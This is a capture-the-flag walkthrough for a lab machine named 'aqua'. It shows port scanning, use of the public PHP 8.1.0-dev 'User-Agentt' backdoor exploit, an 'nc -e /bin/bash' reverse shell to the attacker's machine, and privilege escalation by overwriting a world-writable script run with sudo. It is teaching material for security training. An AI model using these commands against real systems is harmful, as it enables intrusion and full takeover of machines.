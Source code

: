 # Walkthrough: aqua

## 1. Reconnaissance

To identify possible attack vectors, the first step is to scan the host for open ports. This can be done by using `nmap`. The parameter `-p-` instructs nmap to scan all 65535 ports:

```bash
# nmap -A -p- 192.168.60.3
[..]
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   3072 b7:a1:63:7e:11:df:24:9f:13:9e:85:b2:ac:f4:ab:47 (RSA)
|   256 7e:c2:cc:27:30:5a:5a:c9:20:96:c0:aa:3b:c8:64:1f (ECDSA)
|_  256 ab:c7:78:52:73:f4:80:7a:75:18:92:20:19:67:0e:9c (ED25519)
80/tcp open  http    Apache httpd (PHP 8.1.0-dev)
|_http-title: AQUA Design Studios
|_http-server-header: Apache
[..]
```

The output suggests that there are two open ports: an SSH and an HTTP server. The Apache HTTP server on port 80 appears to host a static website, which can be viewed in any web browser:

![website](img/01.png)

## 2. Exploitation / Remote code execution

The next step is to exploit vulnerabilities in the exposed services. The first option that comes to mind is the PHP version `8.1.0-dev` which was identified by the `nmap` scan.

A quick lookup with `searchsploit` shows an interesting exploit:

```bash
# searchsploit -t 8.1.0-dev      
---------------------------------------------------------------------------------
 Exploit Title                                            |  Path
---------------------------------------------------------------------------------
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution       | php/webapps/49933.py
---------------------------------------------------------------------------------
```

This remote code execution vulnerability has been introduced by malicious actors in 2021: [PHP 8.1.0-dev - "User-Agentt Remote Code Execution"](https://www.exploit-db.com/exploits/49933)

We can examine the exploit script via `searchsploit -x php/webapps/49933.py`. Let's run it and see if it works:

```bash
# python3 /usr/share/exploitdb/exploits/php/webapps/49933.py
Enter the full host url:
http://192.168.60.3/

Interactive shell is opened on http://192.168.60.3/ 
Can't acces tty; job crontol turned off.
$ id 
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

Cool! Looks like we can execute commands on the machine. The next step is to establish a reverse shell for an interactive experience. We can use this [Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md).

Establishing the reverse shell happens in two steps:

1. Start a listener on your local Kali Linux machine on some port:  `nc -lnvp 4242`

2. Connect to the listener from `aqua` by using the Python exploit script from above and then executing:
   ```bash
   $ nc -e /bin/bash 192.168.60.2 4242
   ```
   > Note that you need to provide the IP address of your Kali machine, which is `192.168.60.2`.

As soon as the command in step 2 is executed, the listener from step 1 will show an incoming connection from `aqua`. You can now type shell commands that will be executed on the remote machine.

For a more convenient experience, it is recommended to upgrade the connection to an [interactive TTY](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/). To do this, simply execute `python3 -c 'import pty; pty.spawn("/bin/bash")'`:

```bash
$ nc -lnvp 4242
listening on [any] 4242 ..connect to [192.168.60.2] from (UNKNOWN) [192.168.60.3] 57206
python3 -c 'import pty; pty.spawn("/bin/bash")'
daemon@aqua:/$ 
```

Now, there is a shell prompt and we can clearly see that we are logged in as the `daemon` user.

Now we can explore the file system with a couple of `ls` and `cd` commands to locate the first flag:

```bash
daemon@aqua:/$ ls -al /home/aqua                                                    
total 24                                                             
drwxr-xr-x 2 aqua aqua 4096 Jun 25 11:35 .                           
drwxr-xr-x 4 root root 4096 Jun 25 11:35 ..                          
-rw-r--r-- 1 aqua aqua  220 Aug  4  2021 .bash_logout                
-rw-r--r-- 1 aqua aqua 3526 Aug  4  2021 .bashrc                     
-rw-r--r-- 1 aqua aqua  807 Aug  4  2021 .profile                    
-rw-r--r-- 1 aqua aqua   69 Jun 25 11:35 token                      
daemon@aqua:/$ cat /home/aqua/token                                               
Hello there! This one is for you: AQUA{r3m0te_b4ckd00rz_ar3_aw3s0me} 
```

## 3. Privilege escalation

The next step is to escalate privileges to root to completely take control of the machine.

One of the first attempts should be to try if we can execute commands as root via `sudo`:

```bash
daemon@aqua:/$ sudo -l                                                                                          
Matching Defaults entries for daemon on aqua:                                                        
    env_reset, mail_badpass,                                                                         
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin                    

User daemon may run the following commands on aqua:
    (root) NOPASSWD: /opt/restart-apache
```

It appears that the daemon user can run the script `/opt/restart-apache` as root without a password. That sounds nice, let's have a look at the file:

```bash
daemon@aqua:/$ cat /opt/restart-apache
#!/bin/bash

# Sometimes Apache just stops working...
# This script simply restarts the web server.

echo "Restarting Apache. This might take a moment..."
systemctl restart apache2.service
echo "Done!"
```

Apparently, the script simply restarts the Apache web server. Investigating the file permissions with `ls` shows that ANYONE can modify this file:

```bash
daemon@aqua:/$ ls -al /opt/restart-apache
-rwxrwxrwx 1 root root 202 Jun 25 11:39 /opt/restart-apache
```

Well, that's... weird? And insecure!

So let's override the file with another script that just runs the `bash` command:

```bash
daemon@aqua:/$ printf '#!/bin/bash\nbash' > /opt/restart-apache
```

Running this script via sudo should drop us into an interactive root shell:

```bash
daemon@aqua:/$ sudo /opt/restart-apache
root@aqua:/# id
uid=0(root) gid=0(root) groups=0(root)
root@aqua:/# cat /root/token
Nice job! Looks like you deserve this token: AQUA{w0rld_wr1t4ble_f1l3z_c4n_be_h3lpful}
```

Looks like we found our second token! Challenge completed!
